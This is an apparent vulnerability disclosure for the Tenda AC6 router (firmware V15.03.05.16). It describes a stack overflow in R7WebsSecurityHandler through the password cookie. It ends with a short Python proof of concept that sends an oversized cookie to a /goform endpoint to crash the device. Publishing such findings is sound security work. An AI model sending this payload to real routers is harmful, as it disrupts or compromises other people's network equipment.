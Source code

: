 # Tenda-Vul
Product:
Tenda AC6
Version:
V15.03.05.16
https://www.tenda.com.cn/material/show/102661
Problem Type:
Stack overflow
Description:
A vulnerability classified as critical has been found in Tenda AC6 15.03.05.16. Affected is the function R7WebsSecurityHandler of the file /goform/xxx. The manipulation of the argument password leads to stack-based buffer overflow. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. Other parameters might be affected as well.
Detial:
At the function of R7WebsSecurityHandler line 94：sscanf(v44, "%*[^=]=%[^;];*", v34).This function does not validate the user input.Copy user input directly into the stack.
POC:
import requests
URL = "http://192.168.2.3:80/goform/helloworld"
cookie = {"Cookie":"password="+"a"*0x400+".pngAAA"}
requests.get(url=URL, cookies=cookie)

